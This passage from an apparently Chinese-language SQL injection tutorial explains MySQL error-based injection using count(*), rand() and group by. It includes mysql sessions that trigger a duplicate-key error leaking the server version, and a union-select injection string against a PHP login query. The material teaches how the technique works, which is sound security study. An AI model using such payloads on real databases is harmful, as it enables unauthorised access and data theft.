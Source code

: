      * ##### group by：根据by的规则对数据进行分组

     * ##### Count：聚合加动作

    看下报错的语句和效果

    ```mysql
    mysql> select count(*),concat(version(),'+',floor(rand()*2))a from users group by a;
    +----------+----------+
    | count(*) | a        |
    +----------+----------+
    |        8 | 5.7.17+0 |
    |        5 | 5.7.17+1 |
    +----------+----------+
    2 rows in set (0.00 sec)
    
    mysql> select count(*),concat(version(),'+',floor(rand()*2))a from users
    group by a;
    +----------+----------+
    | count(*) | a        |
    +----------+----------+
    |        5 | 5.7.17+0 |
    |        8 | 5.7.17+1 |
    +----------+----------+
    2 rows in set (0.00 sec)
    
    mysql> select count(*),concat(version(),'+',floor(rand()*2))a from users group by a;
    ERROR 1062 (23000): Duplicate entry '5.7.17+1' for key '<group_key>'
    ```
    
    可以发现，我们有一定的几率爆错，其实有一定的条件users表中的记录数需要 ≥ 2（ rand()生成无序序列 ）或者 ≥ 3（ rand(0)生成序列的 ）。为什么会像上面这样呢？其实在这条语句里concat(…) 做为a并成为group by的规则，那么group by的规则就只有：'5.7.17+0'和'5.7.17+1'，ok规则知道了，那么count是计算过程是怎么样的呢，这里看着上面没保存的结果，think in this way：
    
     取第一条记录时concat的结果为'5.7.17+0' ——> 发现a没有此键值 ——> 向a中添加此记录时会重新计算concat一次的结果为'5.7.17+0'，并把conut(*)自加1
     
     取第二条记录时concat的结果为'5.7.17+1' ——> 发现a没有此键值 ——> 向a中添加此记录时重新计算concat一次的结果为'5.7.17+0'，这时想往里添加键值和count(*)自加不同，就会爆错重复的键值
    
     这也解释了为什么在不提供随机种子的情况下，记录数要求 ≥ 2（上面是最小步骤）和为什么报错会是几率性事件：因为在最小步骤出现前如果表里已经出现过两条规则那就不会再报错了，rand()*3,4,5...自行脑补。ps：更详细的解释在这里--[Mysql报错注入原理分析(count()、rand()、group by)](http://mp.weixin.qq.com/s?__biz=MzA5NDY0OTQ0Mw==&mid=403404979&idx=1&sn=27d10b6da357d72304086311cefd573e&scene=1&srcid=04131X3lQlrDMYOCntCqWf6n#wechat_redirect)
     那么其在上面php代码里生效的格式应该是这样的
     ```mysql
     mysql> select * from users where id='1' union select 1,2,3 from (select count(*),concat(floor(rand()*2),version())a from users group by a)b -- ' limit 0,1;
    -> ;
	+----+----------+----------+
	| id | username | password |
	+----+----------+----------+
	|  1 | Dumb     | Dumb     |
	|  1 | 2        | 3        |
	+----+----------+----------+
	2 rows in set (0.00 sec)
